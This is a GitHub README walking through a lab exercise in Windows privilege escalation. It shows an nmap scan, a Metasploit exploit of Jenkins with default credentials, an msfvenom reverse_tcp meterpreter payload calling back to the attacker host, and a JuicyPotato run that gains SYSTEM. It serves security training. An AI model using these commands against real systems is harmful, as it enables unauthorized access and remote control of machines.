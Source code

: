 # Windows Privilege Escalation

## Objective: 
Windows Privilege Escalation, leveraging tools and techniques to gain unauthorized access to system-level resources on a Windows Server machine within a controlled environment. The lab commences with gaining a limited shell via exploiting Jenkins on port 8484, followed by escalating privileges using Juicy Potato. This project provides hands-on experience in exploiting service vulnerabilities, working with Meterpreter shell, and privilege escalation techniques. The ultimate objective is to attain an NT AUTHORITY\SYSTEM level access, thereby demonstrating the vulnerabilities and the importance of securing Windows systems.

## Walkthrough:

### Part 1

- I initiated a Nmap scan within a specified IP range using the command **nmap 10.0.2.0/25**. Given that my host IP is 10.0.2.6, I deduced that the Windows VM IP is 10.0.2.8 with multiple open ports.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp1.png" alt="">
</p>

- I noticed that port 8484 wasn’t displayed as open, prompting me to check using the command **"nmap -p 8484 -sV 10.0.2.8"**. I found it open and identified the running service to be **Jetty winstone-2.8**, an HTTP service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP2.png" alt="">
</p>

- With this information, I accessed Jenkins by entering the IP address and port number **10.0.2.8:8484** in Firefox.

  <p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp3.png" alt="">
</p>

- I then switched to the terminal and entered **MSFconsole** to search for Jenkins exploits. Following the instructions, I selected **exploit number 6**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP4.png" alt="">
</p>

- Setting options for this exploit, I configured the username and password to **vagrant**, defined the rhost as 10.0.2.8 (target IP), set the target URI based on the Firefox URL **http://10.0.2.8:8484/**, defined the srvhost as my host IP (10.0.2.6), and assigned the rport as 8484. Executing the **run** command opened the meterpreter session 1 as NT Authority\local service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.2.png" alt="">
</p>

- I verified if the SeImpersonatePrivilege was enabled, and it was.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP6.png" alt="">
</p>

- Next, I uploaded **JuicyPotato** to the target machine using the meterpreter command **upload /home/kali/Downloads/JuicyPotato.exe**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.2.png" alt="">
</p>

- A quick **ls** command confirmed its presence on the machine with **rwx** permissions across all user groups.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp8.png" alt="">
</p>

### Part 2

- The task began with the creation of a 64-bit Windows meterpreter using MSFvenom. In the Kali terminal, the command **“msfvenom -l payloads | grep windows”** was issued to display a list of Windows payloads. I opted for **“windows/x64/meterpreter/reverse_tcp”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp9.png" alt="">
</p>

- To construct the payload, the command **“msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.6 LPORT=4445 -f exe > windyprivesc.exe”** was executed.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp10.png" alt="">
</p>

- The subsequent step was to transfer the crafted file to the target machine. Within the meterpreter environment, this was achieved using the **“upload windyprivesc.exe”** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp11.png" alt="">
</p>

- To proceed, the generic multi-handler exploit was required. After launching MSFconsole, I searched for multi handlers. I chose option 5, recognized as a generic payload handler, and configured the payload, LHOST, and LPORT accordingly.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp12.png" alt="">
</p>

- The core task was to run the exploit within the directory containing both JuicyPotato and the windyprivesc.exe file on the target VM. This operation was performed inside a shell in meterpreter, using the command **“C:\Program Files\jenkins\Scripts>.\JuicyPotato.exe -t * -p windyprivesc.exe -l 4445”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp13.png" alt="">
</p>

- Once redirected to the multi handler and upon gaining access to the shell, the command **“whoami /priv”** was run. The resultant display showed all enabled privileges. To conclude the assignment, I echoed my name into the terminal for verification purposes.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp14.png" alt="">
</p>
